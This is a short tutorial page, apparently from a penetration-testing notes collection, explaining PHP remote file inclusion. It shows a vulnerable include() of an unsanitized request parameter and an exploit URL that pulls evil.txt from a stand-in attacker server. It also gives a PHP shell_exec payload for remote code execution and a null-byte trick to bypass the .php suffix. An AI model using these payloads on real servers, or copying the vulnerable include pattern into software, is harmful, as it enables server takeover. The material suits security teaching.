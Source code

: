 # Remote file inclusion

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine. 

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the **php.ini** configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```
<?php echo shell_exec("whoami");?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.


## Nullbyte to avoid .php

Remember to add the nullbyte **%00** to avoid appending **.php**. This will only work on php before version 5.3. 